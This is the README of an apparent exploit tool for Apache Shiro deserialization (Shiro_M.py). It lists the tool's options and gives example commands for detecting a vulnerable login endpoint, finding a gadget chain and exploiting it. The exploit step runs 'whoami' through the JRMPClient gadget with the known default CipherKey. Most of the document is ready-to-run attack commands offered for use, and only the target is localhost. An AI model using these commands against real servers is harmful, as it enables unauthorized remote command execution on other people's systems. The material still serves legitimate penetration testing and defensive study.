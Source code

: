 # 0、Usage

Usage: Shiro_M.py [-h] -u URL [-t TYPE] [-g GADGET] [-c COMMAND] [-k KEY]

OPTIONS:

  -h, --help            show this help message and exit

  -u URL, --url URL     Target url.

  -t TYPE, --type TYPE  Check or Exploit. Check:1, Find gadget:2, Exploit:3

  -g GADGET, --gadget GADGET
                        gadget

  -c COMMAND, --command COMMAND
                        gadget command

  -k KEY, --key KEY     CipherKey

# 1、检测

​    python Shiro_M.py -u http://127.0.0.1:8080/login

# 2、Found gadget

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 2 -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 3、Exp

​    python Shiro_M.py -u http://127.0.0.1:8080/login -t 3 -g "JRMPClient" -c "whoami" -k "kPH+bIxk5D2deZiIxcaaaA=="

# 注：

ysoserial比较大